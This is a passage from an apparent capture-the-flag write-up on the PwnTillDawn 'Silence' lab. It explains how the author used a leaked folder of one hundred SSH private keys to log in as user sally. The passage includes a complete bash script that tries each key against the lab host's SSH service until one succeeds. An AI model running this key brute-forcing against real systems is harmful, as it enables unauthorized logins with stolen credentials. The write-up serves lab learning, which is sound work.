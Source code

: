 The contents include a private folder which has **a lot** of keys.

![13](/assets/img/post/pwntilldawn_silence/13.png)

There are a total of one hundred keys inside this directory, so how can we identify which one to use? I'm assuming `sally` is the correct user, since it was inside her backup folder, but which key to use?

To solve this, I've created a bash script to bruteforce the keys and find the correct one. I'm guessing the correct won't ask for a password (hopefully).

```bash
#!/bin/bash

# Usage: ./ssh_key_bruteforce.sh <user> <host> <key_folder>
# Example: ./ssh_key_bruteforce.sh user 192.168.1.100 /path/to/rsa_keys

USER=$1
HOST=$2
KEY_FOLDER=$3

if [[ -z "$USER" || -z "$HOST" || -z "$KEY_FOLDER" ]]; then
    echo "Usage: $0 <user> <host> <key_folder>"
    exit 1
fi

# Iterate over each RSA key in the folder
for KEY in "$KEY_FOLDER"/*; do
    echo "Trying key: $KEY"

    # Attempt to connect using the key
    ssh -i "$KEY" -p 1055 -o BatchMode=yes -o ConnectTimeout=5 "$USER@$HOST" exit 2>/dev/null

    # Check the exit status of the SSH command
    if [[ $? -eq 0 ]]; then
        echo "Success! Key: $KEY"
        exit 0
    fi
done

echo "No valid key found."
exit 1
```

The script asks for a username, host and a key folder. It connects to the server using the keys from the folder and exits soon after. If the connection asks for a password, exiting will result in an error, otherwise, it's the correct key, so it verifies the last command outputted code.

```
$ ./brute.sh sally 10.150.150.55 private
```
